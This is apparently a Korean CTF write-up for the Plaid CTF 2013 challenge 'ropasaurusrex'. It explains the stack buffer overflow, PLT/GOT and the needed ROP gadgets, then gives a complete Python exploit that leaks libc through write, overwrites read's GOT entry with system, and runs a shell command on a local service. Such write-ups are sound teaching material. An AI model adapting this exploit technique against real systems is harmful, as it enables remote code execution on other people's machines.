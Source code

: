 # Ropasaurusrex
### Plaid CTF 2013
***Ropasaurusrex는 p CTF 2013의 문제입니다.***

ropasaurusrex를 처음 실행해 보면, 입력을 받은뒤  WIN이라는 글자와 함께 종료되는 모습을 볼 수 있습니다.

### Main
![Alt text](https://github.com/Funniest/System-study/blob/master/ropasaurusrex/img/Main.PNG)

### Vuln Funtion
![Alt text](https://github.com/Funniest/System-study/blob/master/ropasaurusrex/img/Funciotn.PNG)

sub esp, 98 -> 0x98 만큼 버퍼 생성

lea eax, [ebp-buf] -> 0x88 부터 입력 버퍼

취약한 함수 = call sub_80483F4

buf의 크기는 총 0x88(136) + SFP = (140)인데, 입력은 0x100(256)만큼 받습니다.

└ read(fd, buf, 0x100)

즉 버퍼오버플로우가 일어나게 됩니다.

이제 익스플로잇에 필요한 가젯들을 정리해 보면,
```
1. read_plt, read_got
2. write_plt, write_got
3. pppr
4. dynamic_addr -> bss영역을 사용하지 않는 이유는 영역이 작아서 입니다.
5. read - system libc offset
  └ Offset을 구하는 이유는 주소가 가변적으로 바뀌어도 offset은 고정이기 때문에 이 offset에 base주소를 더해 주면, 
    원래 system주소가 나오기 때문입니다.
```
read - system을 하여 system의 offset을 구한다음 read_got의 addr를 얻어 구한 system offset을 빼면 원래의 system 주소가 나오게 됩니다.

가젯들을 구할 때에는 objdump -d, -h와 gdb를 이용하여 구하였습니다.

read - system을 하여 offset을 구할 때에는 gdb로 아무데나 b를 걸고 달린후 p system, p read를 이용하여 구해주시면 됩니다.

익스플로잇 순서는
```
1. 익스플로잇에 필요한 가젯들을 구합니다.
2. 구한 가젯들을 조합하여 페이로드를 작성합니다.
      └ write_plt에 read_got를 인자로 주어 로드된 read 주소를 얻어옵니다.
      └ 그 후 read_plt를 이용하여 dynamic섹션에 명령어를 받습니다.
      └ got overwrite를 이용하여 read_got를 구한 system주소를 씁니다.
      └ read_plt(system)에 dynamic섹션 영역을 인자로 주어 실행합니다.
```
### Got Overwrite?
Got Overwrite란 read, write함수 등 함수들은 plt주소와 got주소를 가지고 있는데,

plt란 외부 프로시저를 연결해주는 테이블 이라고 나와있습니다.

plt를 이용하여 다른 라이브러리에 있는 프로시저를 호출하여 사용하는 것이 가능합니다.

got는 plt가 참조하는 테이블이고, 프로시저들의 주소가 들어있습니다.

이런 plt와 got를 사용하는 이유는 프로그램을 조금 더 가볍게 하기 위해서 입니다.

원래 옛날에 코드를 컴파일 하면, 라이브러리가 프로그램 안에 들어가서 무거워 졌었는데, 지금은 이렇게 링크를 하여 외부 파일에서 함수를 불러와 프로그램이 가벼워 집니다.

이렇게 프로그램안에 모든 함수 주소를 넣는것을 Static link, 외부 파일에서 필요한 함수만 불러오도록 하는 것을 dynamic link라고 합니다.

간단하게 dynamic link 링크 방식은 plt -> got -> 실제 함수주소를 호출하게 됩니다.

[참고] https://bpsecblog.wordpress.com/2016/03/07/about_got_plt_1/

그럼 plt overwrite는 왜 없냐면 plt는 read only속성이기 때문에 overwrite하는게 불가능하기 때문입니다.

### 소스코드
Ubuntu 16 LTS 32bit 환경에서 테스팅 해보았습니다.

```
#!/usr/bin/python

from socket import *
from struct import *
from time import *

p = lambda x: pack("<L", x)
up = lambda x : unpack("<L", x)[0]

s = socket(AF_INET, SOCK_STREAM)
s.connect(('127.0.0.1', 6666))

read_plt = 0x804832C
read_got = 0x804961C
write_plt = 0x804830C
write_got = 0x8049614
pppr = 0x80484b6

dynamic_addr = 0x8049530
read_system_libc = 0x9abe0

cmd = 'ls -al'

print "[+]Exploit!"
payload = ''
payload += 'A' * 140
#Get target write libc address
payload += p(write_plt)
payload += p(pppr)
payload += p(0x1) #stdout
payload += p(read_got)
payload += p(0x4)
#write in dynamic section
payload += p(read_plt)
payload += p(pppr)
payload += p(0x0) #stdin
payload += p(dynamic_addr)
payload += p(len(cmd))
#got overwrite
payload += p(read_plt)
payload += p(pppr)
payload += p(0x0)
payload += p(read_got)
payload += p(0x4)
#system call
payload += p(read_plt)
payload += p(0x41414141)
payload += p(dynamic_addr)

s.send(payload)

#libc distance calc
read_libc = up(s.recv(4))
system_addr = read_libc - read_system_libc
print "System addr [*]" + hex(system_addr)

s.send(cmd)
s.send(p(system_addr))

print s.recv(1024)
print "Finish!"

```
